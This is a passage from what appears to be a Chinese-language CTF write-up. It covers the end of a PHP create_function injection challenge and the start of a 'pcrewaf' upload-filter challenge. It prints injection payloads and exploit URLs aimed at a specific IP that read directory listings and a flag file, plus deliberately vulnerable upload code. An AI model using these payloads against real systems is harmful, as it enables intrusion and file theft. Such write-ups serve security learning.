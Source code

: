 ```php
1;}phpinfo();/*
```

说点题外的，类似的eval也是将其中的字符串与进行拼接

```php
"<?php ".$code."?>"
```

从而可以传入图`?>`、`<?php`闭合前后的标签，让中间的代码块不会被当作php代码执行。

到了这里，也就差不多了。虽然系统里禁用了`system`、`exec`之类的函数，但是，只要可以读文件就可以拿到flag了

```
http://51.158.75.42:8087/?action=\create_function&arg=1;}print_r(scandir('../'));/*

http://51.158.75.42:8087/?action=\create_function&arg=1;}print_r(file_get_contents('../flag_h0w2execute_arb1trary_c0de'));/*
```

# pcrewaf

环境：

- Apache 2.4.25
- PHP 7.1.24

题目源码

```php
<?php
function is_php($data){
    return preg_match('/<\?.*[(`;?>].*/is', $data);
}

if(empty($_FILES)) {
    die(show_source(__FILE__));
}

$user_dir = 'data/' . md5($_SERVER['REMOTE_ADDR']);
$data = file_get_contents($_FILES['file']['tmp_name']);
if (is_php($data)) {
    echo "bad request";
} else {
    @mkdir($user_dir, 0755);
    $path = $user_dir . '/' . random_int(0, 10) . '.php';
    move_uploaded_file($_FILES['file']['tmp_name'], $path);

    header("Location: $path", true, 303);
}
```

可以看到，最主要就是绕过`is_php`函数的限制

```php
function is_php($data){
    return preg_match('/<\?.*[(`;?>].*/is', $data);
}
```
